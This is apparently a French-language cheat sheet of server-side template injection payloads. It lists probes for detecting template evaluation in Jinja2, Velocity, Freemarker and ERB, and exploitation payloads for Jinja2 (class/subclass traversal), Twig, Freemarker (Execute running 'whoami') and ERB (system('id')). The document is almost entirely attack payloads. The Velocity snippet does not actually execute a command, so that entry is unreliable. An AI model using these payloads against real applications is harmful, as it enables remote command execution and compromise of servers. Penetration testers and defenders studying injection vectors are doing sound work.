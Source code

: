 # Identification

### Charges utiles courantes

```jinja2
{{7*7}}  # Jinja2
${7*7}   # Velocity
#{7*7}   # Freemarker
<%= 7*7 %>  # ERB
```

### Détection de SSTI

1. Injecter des expressions arithmétiques (`{{7*7}}`, `${7*7}`) et vérifier leur évaluation.
2. Rechercher des messages d'erreur indiquant l'utilisation d'un moteur de modèles.
3. Utiliser des variables intégrées (ex. `{{config}}`, `${application}`) pour confirmer l'exploitation.

# Exploitation

### Jinja2 (Python)

```jinja2
{{ self.__class__.__mro__[1].__subclasses__() }}
{{ config.__class__.__mro__[1].__subclasses__() }}
```

### Twig (PHP)

```twig
{{ _self.env.global }}
{{ dump(app) }}
```

### Freemarker (Java)

```freemarker
${"freemarker.template.utility.Execute"?new()("whoami")}
```

### ERB (Ruby)

```erb
<%= system("id") %>
```

### Velocity (Java)

```velocity
#set($cmd="id")
#set($res="")
#foreach($i in $cmd.toCharArray())
  #set($res = "$res$i")
#end
$res
```
